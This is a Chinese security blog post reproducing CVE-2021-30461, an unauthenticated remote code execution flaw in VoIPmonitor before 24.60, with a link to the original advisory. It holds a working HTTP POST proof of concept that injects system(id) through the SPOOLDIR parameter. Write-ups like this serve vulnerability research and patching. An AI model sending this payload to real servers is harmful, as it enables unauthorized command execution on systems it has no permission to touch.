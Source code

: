 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Cev_VchwO_fgpt8lr5ZrFw)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc1Ye0afPkI4bdheU2QgyZQWPHtWQicEDPQbRvesGJhJyH0Tfria3Bbf9RQsZ6qMmqiaFjuVu23Uud9Q/640?wx_fmt=png)

VoIPmonitor 远程命令执行 (CVE-2021-30461)

一、漏洞描述  

VoIPmonitor Web 界面用，允许未经身份验证的远程用户触发 VoIPmonitor 中的远程 PHP 代码执行漏洞。

二、影响版本  

VoIPmonitor < 24.60

三、漏洞复现

访问地址页面：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc1Ye0afPkI4bdheU2QgyZQkWnkm4ZeiciadkQTZKtXOdg9iaUFN33MhBMMZTgBLfn0kqeUYbibhjG6icA/640?wx_fmt=png)

POC：  

```
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=test%22.system%28id%29.%22&recheck=annen
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc1Ye0afPkI4bdheU2QgyZQ1slNEIiaLx67CkA4Ett7VelNA9J90mwmCh7G7N1icRUOXicDcs29Hv2Yg/640?wx_fmt=png)

编写尝试脚本：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc1Ye0afPkI4bdheU2QgyZQDFzfCBYZVl4ZibV1Cnlia4VSETd8XjINcMhGiboYPQBdjxq26Y5IRAtow/640?wx_fmt=png)

参考：

https://ssd-disclosure.com/ssd-advisory-voipmonitor-unauth-rce/

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)